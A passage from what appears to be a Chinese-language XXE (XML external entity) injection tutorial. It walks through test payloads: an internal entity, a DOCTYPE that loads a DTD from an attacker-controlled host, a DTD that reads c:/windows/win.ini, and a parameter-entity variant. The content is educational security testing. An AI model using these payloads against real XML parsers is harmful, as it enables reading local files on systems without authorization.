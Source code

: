 发现可以正常解析。



#### **3.测试是否支持解析参数实体**

修改xml内容如下，主要修改ELEMENT为`ENTITY`实体：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
        <!ENTITY foo "Entity can be hacked">
        ]>
<user>
    <name>Mi1k7ea</name>
    <sex>&foo;</sex>
    <age>20</age>
</user>
```

可正常解析，且成功进行了XML实体注入



#### **4.测试是否支持解析外部实体：**

修改xml内容如下，主要修改为`SYSTEM`执行访问外部链接：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo SYSTEM "http://192.168.17.111:8000/1.dtd">
<user>
    <name>Mi1k7ea</name>
    <sex>male</sex>
    <age>&tea;</age>
</user>
```



需要在攻击者的服务器的Web目录放置一个1.dtd文件，内容如下，读取本地C盘中的win.ini配置文件（若在Linux下读取”file:///etc/passwd”会报错，因为这种攻击方式受到XML中禁止字符的限制）：

```xml-dtd
<!ENTITY tea SYSTEM "file:///c:/windows/win.ini">
```

运行代码，在攻击者服务器看到目标程序访问了其中的恶意DTD文件：

发现成功通过远程加载解析DTD文件读取了本地文件内容：



**外部实体还有另一种写法**，如下：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
        <!ENTITY % milk SYSTEM "http://192.168.17.136:8000/Mi1k7ea.dtd">
        %milk;
        ]>
<user>
    <name>Mi1k7ea</name>
    <sex>male</sex>
    <age>&tea;</age>
</user>
```
